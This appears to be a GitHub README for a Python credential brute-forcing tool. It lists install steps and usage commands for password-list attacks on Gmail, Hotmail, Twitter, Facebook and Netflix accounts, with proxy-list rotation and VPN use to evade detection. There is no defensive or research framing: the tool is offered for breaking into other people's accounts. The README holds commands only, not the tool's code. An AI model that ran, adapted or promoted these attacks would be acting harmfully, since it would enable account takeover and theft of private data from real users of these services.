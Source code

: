 # Brute_Force
![alt text](https://6.top4top.net/p_129299z0c1.png)
![alt text](https://1.top4top.net/p_12925zyk22.png)
[![Python 3.7](https://img.shields.io/badge/Python-3.7-blue.svg)](http://www.python.org/download/)

## install :
```bash
pip install proxylist

pip install mechanize
```


# Usage:

## BruteForce Gmail Attack
```bash
python3 Brute_Force.py -g Account@gmail.com -l File_list

python3 Brute_Force.py -g Account@gmail.com -p Password_Single
```


## BruteForce Hotmail Attack
```bash
python3 Brute_Force.py -t Account@hotmail.com -l File_list

python3 Brute_Force.py -t Account@hotmail.com -p Password_Single
```


## BruteForce Twitter Attack

```bash
python3 Brute_Force.py -T Account_Twitter -l File_list
python3 Brute_Force.py -T Account_Twitter -l File_list -X proxy-list.txt

```
## BruteForce Facebook Attack

```bash
python3 Brute_Force.py -f Account_facebook -l File_list
python3 Brute_Force.py -f Account_facebook -l File_list -X proxy-list.txt
```
## BruteForce Netflix Attack

```bash
يفضل تشغيل VPN
Start On Vpn
python3 Brute_Force.py -n Account_Netflix -l File_list
python3 Brute_Force.py -n Account_Netflix -l File_list -X proxy-list.txt


وترقبووو المزيد 
```



